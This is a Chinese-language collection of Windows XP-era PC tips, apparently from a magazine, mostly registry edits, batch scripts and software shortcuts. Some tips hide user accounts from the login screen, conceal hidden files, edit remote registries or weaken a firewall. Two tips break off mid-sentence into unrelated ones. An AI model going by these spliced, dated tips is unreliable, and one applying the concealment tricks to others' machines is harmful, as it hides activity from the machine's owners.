regsvr32 urlmon.dll
```

## 精简之后 Windows Media Player 也能升级

许多朋友使用nLite等系统优化软件对Windows XP SP2系统进行了精简，如果在精简过程中将Windows Media Player也去掉了，那么在安装最新版本的Windows Media Player 10.0时，系统就会提示版本不符合而安装失败。难道精简和升级Windows Media Player不能兼得吗？

- 第一步：下载Windows Media Player 10.0的安装包到本地硬盘后，右击它选择用WinRAR解压缩到一个目录中。
- 第二步：打开解压目录，找到Wmp10.inf文件，右键单击并选择“安装”，这时会复制一些文件到系统中。
- 第三步：等待文件复制结束后，双击运行setup_wm.exe文件即可正常安装Windows Media Player了。

## 快速找回丢失的“设备管理器”

在“开始→运行”中输入devmgmt.msc命令，打开系统中的“设备管理器”，这时却发现系统无法显示硬件设备的列表，出现“取消操作:Internet Explorer不能链接到您请求的网页。此页可能暂时不可用”的错误提示。这个可能是由于注册表中的设备管理器控件{CD6C7868-5864-11D0-ABF0-0020AF6B0B7A}的注册状态失效了，这时只要在“开始→运行”中执行“regsvr32 dmocx.dll”（不含引号）命令即可快速找回丢失的“设备管理器”。
如果系统提示找不到或无法注册dmocx.dll，这可能是此文件已经损坏或丢失，从安装了相同版本操作系统的机器中复制一个该文件的副本，依次复制到%windir%\system32\dllcache和%windir%\system32这两个目录中即可。

## 随时随地清理垃圾

平时要清理“回收站”中的垃圾时，一般都是直接右击桌面的“回收站”图标，再选择“清空回收站”。虽然操作并不烦琐，但要清理垃圾时就不得不最小化所有的窗口，才能对桌面上的“回收站”图标进行操作。如果能在任何地方用右键菜单选择“清空回收站”，就能解决这个问题。将下面的内容复制到“记事本”中并保存为recbin.reg，双击将其合并到注册表中，这样你就可以随时随地清理垃圾了。

```
Windows Registry Editor Version 5.00

[HKEY_CLASSES_ROOT\*\shellex\ContextMenuHandlers\{645FF040-5081-101B-9F08-00AA002F954E}]
@="清空回收站"
[HKEY_CLASSES_ROOT\*\shellex\ContextMenuHandlers\Empty Recycle Bin]
@="{645FF040-5081-101B-9F08-00AA002F954E}"
[HKEY_CLASSES_ROOT\Directory\Background\shellex\ContextMenuHandlers\Empty Recycle Bin]
@="{645FF040-5081-101B-9F08-00AA002F954E}"
[HKEY_CLASSES_ROOT\Directory\shellex\ContextMenuHandlers\Empty Recycle Bin]
@="{645FF040-5081-101B-9F08-00AA002F954E}"
[HKEY_CLASSES_ROOT\Folder\shellex\ContextMenuHandlers\Empty Recycle Bin]
@="{645FF040-5081-101B-9F08-00AA002F954E}"
```

## 系统信息 我要揭你老底

CPU的频率及型号、系统的启动运行时间、上一次重装系统是在何时、安装了哪些补丁，这些问题我们往往需要借助多个系统工具或使用第三方的信息查看工具。而实际上有一个更简单的方法：
运行cmd.exe打开命令提示符，在该窗口下输入“systeminfo”（不含引号）执行，即可看到几乎所有我们想知道的系统信息，甚至包括机器上已安装的网卡及其IP。 (DIY Chen)

## 搞定健忘的“快速启动栏”

如果系统中安装的应用软件比较多，经常使用“快速启动栏”的朋友就会定期设置一下图标排列顺序。不过，有时你会发现，设置好了图标排列顺序以后，重新登录系统后顺序又乱了，系统为什么没有保存我们的设置？要解决这个问题，可以将下列的内容输入“记事本”，然后保存为注册表文件(如 quick.reg)，双击合并到注册表中即可。

```
Windows Registry Editor Version 5.00
[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer]
"NoSaveSettings"=dword:00000000
[HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run]
"SystemTray"="SysTray.Exe"
```
(limited)

## 让Windows XP桌面显示版本信息

有不少人使用过测试版本的Window XP，可能会注意到该系统中会在桌面右下角显示Build版本号信息。其实所有Windows XP中都有这个功能，只是微软在正式版本中将其隐藏起来了，可以通过修改注册表来将其重新显示于桌面，这样如果想查看本机的版本信息就不用再打开“系统属性”了。打开“注册表编辑器”，找到[HKEY_CURRENT_USER\Control Panel\Desktop]，在右侧窗格找到“PaintDesktopVersion”键，将其键值改为1。退出“注册表编辑器”，重启系统后你就可以看到桌面右下角的系统版本信息了。
(limited)

## 安全模式也能用MSI

Windows XP/2003在出现故障时，往往需要进入“安全模式”解决问题，有时为了处理故障我们需要安装一些系统组件或第三方的系统工具。但如果安装包是MSI格式的，则会出现“Windows Install服务尚未启动，无法安装”的提示。可以通过以下方法来解决：

- 1. 进入“安全模式”后，运行cmd.exe打开命令行提示窗口，在其中输入“REG ADD "HKLM\SYSTEM\CurrentControlSet\Control\SafeBoot\Minimal\MSIServer" /VE /REG_SZ /F /D "Service"”(不含外侧中文引号)回车。
- 2. 在命令行提示窗口中输入“net start msiserver”回车，启动Windows Installer服务。
- 3. 现在重新执行MSI格式的安装程序，已经可以正常运行了。
（熊猫盼盼）

## 为组策略做个“Ghost镜像”

Windows 2000/XP/2003中提供的组策略为我们提供了很多系统优化、设置，但对它的改动实际上就是改动了注册表，存在一定风险。我们可以通过批处理文件来为当前系统的组策略设置“照张相”，如果之后对组策略的修改有什么闪失，可以一键恢复。

首先编辑如下内容，将其保存为bat文件，双击运行即可在该BAT文件同一目录生成文件名形如“gpedit_2005_5_01_星期日_11_23”的BAT文件，当想要恢复时只需双击运行新生成的BAT文件即可：

```
@echo off
rem get current time
for /f "tokens=1,2,3,4 delims=-/:" %%j in ('Date /T') do set FILENAME=gpedit_%%j_%%k_%%l_%%m
for /f "tokens=1,2 delims=:" %%j in ('TIME /T') do set FILENAME=%FILENAME%_%%j_%%k.bat
rem get service name
sc query type= service state= all| findstr /r /c:"SERVICE_NAME: ">gpedit.txt
echo Save Service Start State In %FILENAME%
rem save service start state into batch file
rem
echo @echo Restore The Service Saved At %TIME% %DATE% >"%FILENAME%"
echo @pause >>"%FILENAME%"
for /f "tokens=2 delims=:" %%j in (gpedit.txt) do @echo sc qc %%j|findstr .START_TYPE >>gpedit_n.txt && for /f "tokens=4 delims=:" %%s in ( gpedit_n.txt) do @echo sc config %%j start= %%s >> "%FILENAME%"
echo @pause >>"%FILENAME%"
del gpedit.txt
del gpedit_n.txt
```

### 小提示

该代码适用于Windows XP/2003，对于Windows 2000用户，请将“sc query type= service state= all| findstr /r /c:"SERVICE_NAME: ">gpedit_n.txt”修改为“sc query type= service state= all bufsize= 10000| findstr /r /c:"SERVICE_NAME: ">gpedit_n.txt”，其余保持不变。该批处理命令中运用到了sc命令，该命令在Windows XP/2003中为内部命令，在Windows 2000中没有，可以从http://www.microsoft.com/windows2000/techinfo/reskit/tools/default.asp下载获得。
(JoyChan)

## 找回系统托盘上的喇叭

如果系统托盘上的喇叭无故丢失，首先进入“控制面板→声音和音频设备”，确认勾选“设备音量”栏中的“将音量图标放入任务栏”项。接下来将Windows XP安装盘放到光驱中，运行“CMD”命令打开命令提示符界面，以光驱盘符为F，系统安装在C盘为例（对于其他情况，请对脚本做相应变动），依次输入以下命令即可：

```
F:
CD i386
expand sndvol32.ex_ c:\windows\system32\sndvol32.exe
```
（四川 逍遥小小）

## Windows 2000/2003 Server单用户远程控制

用Windows 2000 Server/2003 Server远程终端访问时，默认访问方式是新建一个终端用户，这个用户不会影响服务器当前用户(你看不到他当前使用中的桌面)。如果要登录到服务器主机当前用户的桌面，可以在“开始→运行”中输入“%SystemRoot%\system32\mstsc.exe /console”命令来连接，连接上后，当前主机的用户会黑屏，只有远程用户可以看到桌面。因为Windows XP的远程终端服务采用单用户，所以无论是否加入“/console”参数都会登录到主机当前的桌面。
（四川 逍遥小小）

## 搞定Windows 98的“explorer错误”

Windows 98使用过程中常常会遇到“explorer进程错误”，甚至有时候刚开机，还未进入系统也可能如此。如果遇到这种情况，我们可以以DOS模式启动，输入“edit system.ini”命令，将“shell=explorer.exe”修改为“shell=progman.exe”，修改完毕后重新启动计算机。系统会进入应用程序管理器，在“运行”框里输入“control appwiz.cp”命令打开“添加/删除程序”，在这里重新安装IE之后(安装过程需要插入Windows 98安装盘)，重新启动计算机后再用同样的方法将system.ini中的“shell=progman.exe”改回为“shell=explorer.exe”，最后重启即可。
（四川 逍遥小小）

## 禁止Win2000启动时读软盘

因为微软公司在设计Windows 2000时不但考虑了台式机用户，而且也考虑了笔记本电脑的用户，由于笔记本电脑上的光驱和软驱均属于可拆卸部件，因此在Windows 2000启动时就加入了系统启动过程中检测软驱这一功能，从而确定当前硬件配置中是否有软驱，是否加载软驱的驱动，你所感觉到的现象就是在系统启动时会读一下软驱。解决该问题的方法目前只能是暂时禁用软驱，具体的操作步骤是在系统桌面上用鼠标依次选择“开始→设置→控制面板”。在随后出现的窗口中用鼠标双击“系统”图标，在接着出现的窗口中依次选择“硬件→设备管理器”。在设备列表中找到并进入软盘驱动器，用鼠标右键单击具体的软盘驱动器参数项，在弹出的右键菜单中选择“停用”项，接着单击“确定”按钮即可。如果想恢复软盘驱动器的使用，可按照上述步骤重新启用即可。
（四川 逍遥小小）

## 快速删除注册表键值

通常情况下我们要删除注册表中的某个键或者键值，都是打开“注册表编辑器”，然后定位到相关分支进行删除操作。但如果我们要对多台计算机做同样的操作呢？或者这种删除操作是需要常常进行的呢？这就不方便了。其实可以通过将删除操作做成*.reg文件的形式，双击该*.reg文件即可完成删除操作。

删除某个注册表分支：打开“注册表编辑器”，将要删除的分支导出为*.reg文件，用“记事本”打开该文件，将形如“[HKEY_LOCAL_MACHINE\SOFTWARE\……]”的字段修改为“[-HKEY_LOCAL_MACHINE\SOFTWARE\……]”即可。

删除某个注册表键：同样将该键导出为*.reg文件，用“记事本”打开该文件，将要删除键的键值修改为“-”即可，如要删除某名为“cfan”的键，则修改为形如:"cfan"=-。
(JoyChan)

## 未知文件不再“自作多情”

每次在Windows XP中双击试图打开一个未知格式的文件时，Windows都会弹出一个对话框，要求选择“使用Web服务寻找适当的程序”或者“从列表中选择程序”。但实际上我们大都知道该文件用什么程序来打开，进而选择“从列表中选择程序”。如何让Windows XP不必每次都询问而是直接选择合适的程序来打开此未知文件呢？

运行“CMD”命令打开命令提示符窗口，再运行“REG ADD "HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System" /V NoInternetOpenWith /T REG_DWORD /F /D 1”(不包含外侧中文引号)命令即可。如果要对远程计算机做同样的优化设置，可以运行“REG ADD "\远程计算机名\HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System" /V NoInternetOpenWith /T REG_DWORD /F /D 1”命令。
（四川 逍遥小小）

## 让“隐藏”文件隐蔽得更安全

我们有很多种方法来隐藏隐私文件和文件夹，不过使用比较多的方法是将文件夹或文件的属性修改为“隐藏”。但这样并不可靠，有一定基础的用户可能通过设置“显示所有文件和文件夹”来轻易破解。其实你可以让“隐藏”属性的文件夹即使在设置了“显示所有文件和文件夹”之后依然无法显示，这样隐藏文件的保险系数又高了不少。打开注册表编辑器，找到[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\Advanced\Folder\Hidden\SHOWALL]，在右侧窗格中新建一个名为CheckedValue的REG_DWORD值，将该值设置为0即可。这样我们要访问隐藏的文件夹或文件，只能通过在“资源管理器”地址栏中输入完整路径才行。
（四川 逍遥小小）

## 把注册表植入资源管理器

每次使用注册表编辑器都得点击“开始→运行”，输入Regedit，回车后打开。像Total Commander这样的文件管理器能直接访问注册表，非常方便。其实你也可以略施手术，让注册表直接进驻Windows的资源管理器。首先到http://www.regxplor.com/regxplor_full.exe下载Registry Explorer，安装后打开资源管理器，你会发现左侧的文件列表会多出一个Registry，展开它即可像操作注册表编辑器一样操作注册表了。而它最大的好处在于，当你在网上发现了一条注册表技巧，直接复制## 让Windows XP欢迎屏幕强制隐藏任意用户名

有时不希望别人在使用自己的电脑时登录某些属于自己的账户，除了给该账户设置密码外，我们还可以使用以下的方法来让该账户不在Windows XP的欢迎屏幕中出现。

首先将以下代码保存为welcome.bat(脚本下载地址:http://www.newhua.com/cfan/200511/welcome.rar):

```
@echo off
if [%1]==[] @echo Syntax: Welcome User_Name&goto :EOF
setlocal
set user=%1
@echo Reg ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\UserList" /V %User% /T REG_DWORD /F /D 1
Reg ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\UserList" /V %User% /T REG_DWORD /F /D 1
endlocal
```

接下来运行“CMD”命令打开命令提示符窗口，进入welcome.bat所在目录，如果你希望隐藏一个名为username的账户，那么运行“welcome username”命令即可。该方法也适用于隐藏guest、administrator账户，只需输入“welcome guest”或“welcome administrator”命令。

## 看看我的电脑是否被动过

你可能会比较关心这么一个问题:在你离开自己爱机的这段日子里，别人是否动过它? 我们可以借助系统日志来轻松完成这一任务。

依次进入“控制面板→管理工具→事件查看器”或者直接运行“eventvwr”命令打开“事件查看器”，在左边的导航栏中依次定位到“事件查看器(本地)→系统”一项，选择“查看→查找”，在打开窗口的“事件ID”框中输入“6006”，单击“查找下一个”按钮即可。6006是Windows的关机日志事件，找到后你可以查看该事件对应的时间，如果与你自己使用时关机的时间不一致，那么你的电脑就可能曾被别人使用过。

## 宏病毒文档照样开

在打开Word文档时，可能你会担心这其中是否会有宏病毒。如果手头没有最新的杀毒软件，而又迫切需要打开这份文档……请不要为了一时方便而忽视了系统的健康。有一个完美的解决方法:在打开Word文档或模板时，按住Shift键。这样就会自动跳过Word启动宏，躲在宏里的病毒自然也就无用武之地了。另外，在关闭该文档时，保险起见还是要按住Shift键，以避免宏病毒利用文档关闭事件发作。

## 快速关闭取词状态

金山词霸的鼠标取词的取词开关热键是Ctrl + Alt + F1，不过取词完后要放下鼠标来按键也大可不必，只需在取词窗口上双击鼠标左键即可暂停鼠标取词。

## 页眉位置随意设置

进入Word，点击菜单中的“视图→页眉和页脚”，进入“页眉和页脚”编辑状态，然后点击菜单中的“插入→文本框→横排”，插入一个无边的文本框，以后不管在其中输入什么内容，该文本框都可以在每一页上看到(Office 2000测试通过)。

## 定制极点中文专版安装包

极点中文提供了“极点便携定制向导”，该向导可以将系统中的极点中文重新打包，生成安装文件，然后你可以将它复制到闪存盘，或是上传至QQ等网络硬盘中，这样在其他电脑上，也可以方便快速的安装极点中文。具体方法如下。

点击“开始”菜单中的“程序→极点中文→极点便携定制向导”，点击“下一步”，开始设置基本参数，如专版名称等等，再点击“下一步”，分别设置好“授权协议文件”及“专用版说明文件”，完成后点击“下一步”；如果你需要修改安装界面中显示的图片，则可在此步中修改，如果要使用默认图片，直接点击“下一步”即可；现在你可以开始进行信息设置及指定安装包保存的位置，最后点击“创建”按钮，就可生成文件名为freewb.exe的极点中文专版安装包。该安装包包含了你的一些个性化设置，非常地方便。

## 巧妙解决杀毒软件让机器重启的问题

杀毒软件是自己花钱请来的，是来为自己服务的，可是有时也会成为你的绊脚石。我的Windows XP用的是KV 2005，总体上感觉还是不错，但最近出了一点小问题:当我启动BT软件或Foxmail时，KV2005会询问是否许可。当回答许可后，有时电脑重启。虽然不是时时都有，但一出现，造成的后果也是严重的。

其实这时要降低一下防火墙的安全设置。同时删除防火墙安装目录(一般为C:\Program Files\kvfw)下的App.aud文件即可。

## 快速批量修改MP3信息

经常使用MP3听音乐的朋友知道，很多从网上下载的音乐传到MP3上播放时，MP3显示屏往往带有与下载站点有关的信息。当你不想要这些信息时，不得不编辑它们，这样就得上网东找一头西找一头，来找相关的编辑软件。而且很多软件只能编辑一种格式的音乐文件。其实根本不用这么麻烦，用RealPlayer就能完成。

打开Realplayer，选择菜单中的“文件→将文件添加至我的媒体库”，然后选择需要修改TAG信息的文件。最后，全部选中这些文件，单击右键，选择“编辑剪辑信息”之后就在这里随心所欲的编辑你想要的剪辑信息吧。

RealPlayer不仅能批量编辑文件信息，注册后，还可以进行格式的批量转换。

## 快速切换Windows Media Player的外观

Windows Media Player 10是一款非常不错的媒体播放器，很多朋友喜欢用它的外观模式，但并不便于我们进行操作，对于这种情况，我们可以使用Ctrl + 1及Ctrl + 2在外观模式及完整模式下快速切换。

## 巧选文字竖块

不管是Word，还是EmEditor中，都可以在按下Alt键后，用鼠标选择竖向的文字，而不仅仅是横向文字块。其他很多文字编辑软件(比如Emeditor)也可以使用该方法进行选择。

## 在Excel中复制图片表格

## 巧妙拆分Word表格

首先，将光标定位到要拆分表格的某一行上，然后按下Ctrl + Shift + Enter组合键。这时，表格中间就自动地为你插入了一个空行，与此同时也就实现了将一个表格一分为二的目的。

如果要把两个单独的表格合并为一，只要将光标定位在两个表格之间的空行处，按下DEL键即可。

## 音乐循环放

在豪杰音频解霸中，如果想随机播放音乐，可以使用如下方法进行设置:选择菜单中的“控制→随机顺序播放”。

## 豪杰解霸也能播放Real10视频

现在越来越多的RMVB视频是用Real10进行编码的，而豪杰解霸V8版原本是不支持Real10的，所以有些RMVB文件无法用豪杰解霸V8播放。现在，你可以从http://update.herosoft.com/update/real10.exe下载豪杰解霸V8的Real10解码器，从而使解霸能够正常播放Real媒体。

## 听歌的时间不再调整音量

在用Foobar 2000欣赏音乐时，由于音频文件声音大小不同，所以需要不停地调整音量大小，非常麻烦。后来经过搜索，发现可以使用增益播放来固定音量大小。具体的方法如下:进入Foobar 2000，选择菜单中的“Foobar2000→参数设置”，然后在窗口左侧选择“回放”，接着在窗口右侧的“播放增益模式”下选择“专辑增益”，点击“全部保存→关闭”按钮。回到Foobar 2000主窗口，在文件列表中右击，选择“播放增益→作为专辑扫描”，这样列表中所有音频文件的声音就会一致。

## 让My MPC·暴风影音不保存历史记录

My MPC·暴风影音使用一段时间后，会在打开文件对话框中保存以前打开过文件的历史记录，虽然可以通过修改配置文件mplayerrc.ini来删除这些记录，但是以后打开过的文件还是会记录下来，还要重新删除，显然这样做很麻烦。其实可以通过下面的设置，让My MPC·暴风影音不再保存历史记录:单击“查看”菜单下的“选项”，在设置窗口中，取消“播放器”面板下“记住最近打开的文件”项的勾选即可。

## 给你绿色的五笔

如果你喜欢用五笔，但在很多电脑上又无法使用，那么你可以试试由高手制作的绿色万能五笔，它安装(仅拷贝文件，生成快捷方式，并不写数据到注册表)后仅有1.2MB，你只要将它的安装目录拷贝到闪盘中，在其他电脑上运行其中的wnwb.exe文件就可以使用了。绿色万能五笔下载地址:http://www.newhua.com/cfan/200502/wnwb2005.exe。

## 修改Winamp文件关联图标

在安装Winamp后，所有MP3文件都会使用其默认图标，如果想更加个性化，可以直接用Winamp中内置的其他图标:打开Winamp，右击主窗口，选择“选项→参数”(或按Ctrl + P)，在弹出窗口左侧选择“文件类型”，然后在右侧的“关联文件图标”中选择一款图标即可。

## 在 Winamp 中实现双击添加音频文件

默认，如果 Winamp 与 MP3 文件关联，则在直接双击 MP3 文件时，Winamp 会自动清空文件列表，播放双击的 MP3 文件，如果不喜欢此功能，可以用下面的方法来实现双击后添加音频文件的功能：打开 Winamp，按 Ctrl + P 打开“参数设置”窗口，然后在窗口左侧选择“文件类型”，在窗口右侧勾选“在 Windows 资源管理器中双击时把文件加入播放队列(默认是播放)”项即可。

经过设置后，以后再双击音频文件时，Winamp 会将新文件添加至播放列表中，而不会再去清空播放列表了。

(CDB)

## 把 PowerPoint 文件转成 Word 文件

在 PowerPoint 中打开演示文稿，选择菜单中的“文件→发送→Microsoft Office Word”。如果要将幻灯片嵌入 Word 文档，请选择“粘贴”。如果要将幻灯片链接到 Word 文档，请选择“粘贴链接”。如果为“链接”文件，那么在 PowerPoint 中编辑这些文件时，它们也会在 Word 文档中更新。

(广东 横扫一大片)

## 用 Word XP 进行图像处理

我们都知道在 Word XP 中直接执行“粘贴”命令可以方便地把其他位置的图片复制过来，但这只能保持图像原有格式，如果想将图片以不同格式粘贴到编辑区域，可以用 Word XP 中的“选择性粘贴”命令来实现。首先启动 Word XP，并打开需要粘贴图片的文档，接着选中图片并进行复制。单击菜单栏中的“编辑→选择性粘贴”命令，这时会弹出一个粘贴设置的窗口，在其中有不同的图像格式进行选择，你只要选择需要的格式再单击“确定”按钮即可。

(湖北 黄书童)

## 紫光输入法技巧一则

有时在使用紫光拼音法时，如果词库文件破坏，再使用时，就会弹出提示窗口“词库文件打开失败”，并且输入法无法正常使用。其实要解决也很简单，方法如下：首先新建一个扩展名为 UWL 的空白文件，接着单击“程序→紫光拼音输入法→工具→词库备份和恢复”命令，然后选择“我想为当前用户从词库备份文件中恢复词库”选项，单击“下一步”按钮，这时输入法会提示你提供词库备份文件，定位到刚才建立的空白文件，按“确定”按钮，程序会提示“恢复词库失败”，关闭这个对话框重启电脑就可以正常使用紫光输入法了。

(湖北 黄书童)

## 快速关闭 PhotoShop 的工具栏和浮动面板

在使用 PhotoShop 作图时，当你要快速的将多个浮动面板关闭时，可以同时的按下键盘上的 Shift+Tab 键，这样浮动面板就会立刻关闭，如果再同时按下这两个键，面板就又会打开出现。如果只按下 Tab 键则工具栏和浮动面板会一起关闭，同理，再按下该键则工具栏和面板又会同时打开出现。

(湖北 黄书童)

## 测试你的系统是否有 Popup 漏洞

Popup 漏洞(就是大家常说的“网络钓鱼”)是 IE 浏览器新发现的 BUG。利用这个漏洞可以把可信任站点上的弹出窗口链接指向任意的页面，从而被别有用心的人士所利用，现在只要你用浏览器打开这个 http://www.secunia.com/multiple_browsers_window_injection_vulnerability_test/ 测试页面，就以检验你的浏览器是否会被这个漏洞所影响。其中的测试方法十分简单，直接点击网页上的“With Pop-up Blocker”或“Without Pop-up Blocker”的链接，如果测试时出现一个弹出窗口并显示一些出自 Secunia 网站的文字则说明存在这个漏洞，请尽快打好补丁。

(广州 伍裕标)

## 用 Total Commander 巧法删除重复图片

由于工作关系，笔者常常需要在网上搜寻大量的图片，时间一长，硬盘中的很多图片就会重复，它们的图片内容是一样的，但是图片名字却不一样。怎样可以快速的删除重复的图片呢，笔者有个很好的办法，方法如下：打开 Total Commander，然后切换至分区最上层，然后选中所有文件及文件夹，再选择菜单中的“命令→搜索”项，在弹出的搜索窗口中，点击“高级”标签，选中“查找重复文件”和下面的“名称相同”、“大小相同”、“内容相同”三个选项，最后单击“开始搜索”按钮就可以查找硬盘中重复的图片了。

(湖北 黄书童)

## 解压缩后，快速打开文件夹

WinRAR 是款非常好用的压缩软件，可是再好的软件也有纰漏，比如我们在用 WinRAR 解压缩文件完毕后，都要再次打开解压缩后的文件夹，而不是直接进入该文件夹中。

我们可通过简单的设置解决这个问题。右击要解压缩的文件，在弹出菜单中选择“解压文件”一项，在打开的解压窗口中选择“杂项”中的“在资源管理器中显示”项，最后单击“确定”按钮即可。

(湖北 黄书童)

## 对加密网页说“不”

网上有很多不错的文章，本想把内容复制下来慢慢看，可是有很多网站出于不同的原因对网页内容进行了加密，使很多 IE 用户无可奈何。其实有一个很简单的办法就可以把这些加密的内容很轻松的保存下来，就是使用 FireFox 浏览器打开此页面。使用该浏览器后可以用普通的复制、粘贴的方法就能把加密内容复制下来。因为大部分的网站都是使用 IE 的标准，针对 IE 用户进行加密的，所以对于 FireFox 来说起到了加密的作用。

(X-MAN)

## 也谈 QQ 能用，IE 不能用问题

《电脑爱好者》已经介绍过几次因某种原因，导致 QQ 能用，但 IE 打不开任何网页的解决方法，其实除注册 DLL 文件及 SFC 方法外，还可以使用专门的修复软件——Winsock Fix(下载地址：http://www.newhua.com/cfan/200503/winsockxpfix.rar)。将软件下载并解压缩，然后运行其中的 winsockxpfix.exe，点击 Fix(修复)按钮即可修复，如果出现错误，可通过 ReG-Backup(恢复备份)按钮恢复即可。

(AA)

## 关于《轻松读懂生僻字》的补充

《电脑爱好者》2005年1期《轻松读懂生僻字》中提到输入生僻字的方法。本人看后再提供一些补充意见。

由于本人不会用五笔，有时候在一些没有微软拼音 2003 版等可以使用手写输入的电脑上，要输入就比较麻烦了，其实，如果安装了金山词霸，就可以使用其“附录”中的“部首检字表”轻松输入。由于本人经常使用，特推荐给大家。

(谈波翰)

## 恢复 ACDSee 中的默认窗格位置

不少人经常会不小心拖动 ACDSee 中的内部窗格，比如把“日历”选项卡拖出成为单独的窗格，这时如果想恢复就会很麻烦了。遇到这种情况你可以选择菜单中的“查看→重置版面”，这样，就可以将窗格的位置恢复为默认(本技巧在 ACDSee 7.0 中测试通过)。

(ABC)

## 关闭 Sygate Personal Firewall 的升级提醒

Sygate Personal Firewall 是一款不错的防火墙软件，可是安装完成后，总是会弹出升级的提示，要去除这个提示很简单：选择菜单中的 Tools→Options(工具→选项)，在弹出窗口中选择 Updates(升级)标签，去除 Automatically check for new versions(自动检查新版本)项的勾选即可。

## 用 Nero 兼职 Ghost

Ghost 可以将打包好的文件刻录到光盘中，而其实 Nero 也是有这个功能的，而且使用很简单，做个日常的硬盘备份还是很方便的，方法如下：选择菜单中的“刻录器→刻录硬盘驱动器备份”，然后按照向导进行刻录即可。如果需要恢复，只要用 Nero BackItUp 进行恢复即可。

## 在 ACDSee 中用等级排序

很多朋友利用 ACDSee 的分类功能，将图片分成了不同等级，如果想让照片按照等级进行排列，则可选择菜单中的“查看→排序→等级”就可以按等级进行排序了。

## 用网文快捕捉无广告的页面

很多朋友喜欢用网文快捕抓网页，但越来越多的网页嵌入了大量广告，不仅浪费硬盘空间，看着还让人心烦，其实对于这种情况，只要使用 Ad Muncher 这款广告屏蔽软件，将广告进行屏蔽，这样问题就能解决了，该软件的下载地址为 http://www.onlinedown.net/soft/3731.htm。

## 设置 WinDVD 的抓图保存目录

WinDVD 6.0 具有抓图功能，但很多人不清楚它保存图片的位置，其实它抓取的图片保存在 C:\Documents and Settings\用户名\My Documents\InterVideo\WinDVD 目录下，如果你需要修改，只要在 WinDVD 窗口中右击，选择“设置”项，然后修改“控制”面板下的“捕获/书签目录”项即可。

## UltraEdit 巧设超级密码

每个人的爱机里总有几个文档、几张图片、几段视频是不想让别人看到的。于是费尽心思隐藏加密。时下流行的文件加密方法大都是设置密码，一般很容易破解，其实用 UltraEdit 就能实现简单的加密。

用 UltraEdit 打开一些非文档类的文件时，文件就会以十六进制显示，只要将窗口右侧 ASCII 码中，文件头的一个字母或数字进行修改，这个文件就不能打开了，不过图标是没有发生任何变化的。如果需要打开时，只需将改动部分恢复即可。

(liusucess)

## 让 Foobar 2000 减少资源占用

Foobar 2000 一直是以资源占用少被很多朋友所使用，但现在有很多朋友反应说它的资源占用并不少，其实，这主要是因为安装了过多插件所致。建议在安装时，只选几个插件，就可以减少资源占用了，这里为你推荐几个插件：FLAC、APE、MP3、MP2、WAV、CD，这样 Foobar 2000 既可以播放常见的音频文件，又可以减少资源占用。

## 在千千静听中精确定位歌曲进度

使用千千静听播放音乐时，想在某首歌曲播放时找到自己想听的进度段，如果用鼠标在播放进度条点击拖动进度往往不能正确地找到，其实现在你可以将鼠标移动到“歌词秀”窗口，这时鼠标会变成小手形状，此时可向上或向下拖动歌词，窗口中会出现一条横线来定位当前歌词，拖动到自己想听的那段歌词后松开鼠标，千千静听就会自动跳转到这段歌并开始播放了。

(木头人)

## 在 RealPlayer 中流畅快速的播放在线视频

如果想在 RealPlayer 中流畅快速的播放在线视频文件，就需要修改使用 RealPlayer 的默## 在 Word 中实现折页打印

所谓“折页”打印，是将两个连续页面打印到同一张纸上，然后对折起来，就像书本一样可以两面翻开。使用这种打印效果，不仅可以节约用纸，而且还很美观。在 Word XP 中，我们可以轻松实现“折页”打印：单击菜单中的“文件→页面设置”，选中“页边距”标签，在“多页”下拉列表中选择“书籍折页”，确定退出即可。

需要注意的是，如果你的打印机不支持双面打印，还要在打印属性设置窗口中将“手动双面打印”一栏勾上，这样一来打印机一旦打完一面，它就会自动提示你对另一面进行打印。

## 让 PQMagic 运行在 Server 版系统中

一般情况下 PQMagic 是无法运行在安装有服务器版系统(包括 Windows 2000 Server/2003 Server)的电脑上，而且不管是 Windows 版还是 DOS 版都无法使用，如果出现这个问题表示，其实只要改个文件就可以实现了(以 Windows 2000 为例)：打开 Boot.ini 文件，将其中的“Microsoft Windows 2000 Advanced Server”(不含引号)改为“Microsoft Windows 2000 Professional”(不含引号)，并将此行中“=”的前后各加一个空格即可，这种方法既不影响使用 Windows，也不影响使用 PQMagic。如果你只暂时用一下 PQMagic，则可直接在 DOS 下为 Boot.ini 重命名，再进行分区等操作后恢复即可。

## 倒放 MOV 电影

用 QuickTime 打开一个 MOV 文件，当播放时，点击暂停键，按下 Shift 键并双击播映窗口，电影就倒着播放了，连声音也是倒着的哦。

## 在 Winamp 中快速定位至指定的歌曲

在 Winamp 中，如果你的歌曲列表过长，则可以按 F3 键，然后打开播放列表，再输入你想查找歌曲的英文字母就可以查找了，不过此方法无法查找中文歌曲。

## 让 McAfee VirusScan 阻挡危险程序的写入

McAfee 具有防止有害程序写入关键文件夹的功能：进入系统后，右击系统托盘内 McAfee 软件图标，选择 VirusScan 控制台，双击“访问保护”项，在弹出窗口中点击“文件、共享资源和文件夹保护”标签，选择“阻挡对所有共享资源的读写访问→阻止并报告访问尝试”项，然后在“要阻挡的文件和文件夹”下勾选设置即可。

## 在 Photoshop 中快速定位图像区域

笔者有时要用 Photoshop 来处理图片时，如果图片很大，移动起来非常不方便，经过摸索发现可以通过快捷键来快速的定位到指定图片区域。方法如下：如果分别按住快捷键 Home、End、Page Up、Page Down 可以快速定位到图像的左上角、右下角、最上方、最下方。如果分别按住 Ctrl + Page Up、Ctrl + Page Down 可以快速定位到图像的左侧和右侧。

## 用计算器计算复杂的公式

Windows 自带的计算器可以方便地计算一些数据，当要计算一些比较复杂的公式，如果一个一个输入会有些麻烦。此时可以先在“记事本”中将需要计算的公式按一般数学表达式的格式输入。然后，在公式的最后再添加一个“=”(不含引号)号，最后把公式粘贴到计算器中，计算器就可以自动的给出结果了。

## 快速修改 QQ 聊天场景图片

首先下载 QQ 聊天场景中的任意一款，然后打开 Photoshop 等图形处理软件，制作一张 216 像素×215 像素的图片，然后将其覆盖对应场景文件中 E000056.gif(场景都保存在 QQ 所在文件夹 Tencent\QQ\IMScene\Scene 子目录)。这样就完成了 QQ 聊天背景图片的自定义了。

## 用 Winamp 做电台 DJ

